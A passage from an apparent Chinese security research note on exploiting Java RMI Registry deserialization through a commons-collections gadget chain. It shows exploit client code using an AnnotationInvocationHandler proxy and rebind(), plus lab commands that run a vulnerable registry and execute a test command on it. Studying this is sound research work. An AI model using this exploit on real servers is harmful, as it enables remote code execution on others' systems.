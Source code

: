 ```java
        String          name        = "anything";
        HashMap         hm          = new HashMap();
        hm.put( name, bave );
        Class           clazz       = Class.forName( "sun.reflect.annotation.AnnotationInvocationHandler" );
        Constructor     cons        = clazz.getDeclaredConstructor( Class.class, Map.class );
        cons.setAccessible( true );
        InvocationHandler
                        ih          = ( InvocationHandler )cons.newInstance( Override.class, hm );
        /*
         * https://docs.oracle.com/javase/8/docs/api/java/rmi/Remote.html
         *
         * Remote是个接口，因此可以使用动态代理机制。参看:
         *
         * http://scz.617.cn/misc/201911291425.txt
         *
         * 2.2) TicketServiceClient1.java
         */
        Remote          remoteProxy = ( Remote )Proxy.newProxyInstance
        (
            Remote.class.getClassLoader(),
            new  Class[] { Remote.class },
            ih
        );
        Registry        r           = LocateRegistry.getRegistry( addr, port );
        /*
         * 通过远程绑定触发"RMI Registry"的反序列化漏洞
         */
        r.rebind( name, remoteProxy );
    }
}
```

与HelloRMIDynamicServer不同，本例r.rebind()不会形成阻塞。

3) 测试

java_8_40 \
-Djava.rmi.server.hostname=192.168.65.23 \
-cp "commons-collections-3.1.jar:." \
RMIRegistryServer 1099

8u232不能得手，8u40可以。

java \
-cp "commons-collections-3.1.jar:." \
EvilRMIRegistryClientWithBadAttributeValueExpException 192.168.65.23 1099 \
"/bin/touch /tmp/scz_is_here"

调试RMIRegistryServer:

java_8_40 -agentlib:jdwp=transport=dt_socket,address=192.168.65.23:8005,server=y,suspend=y \
-Djava.rmi.server.hostname=192.168.65.23 \
-cp "commons-collections-3.1.jar:." \
RMIRegistryServer 1099
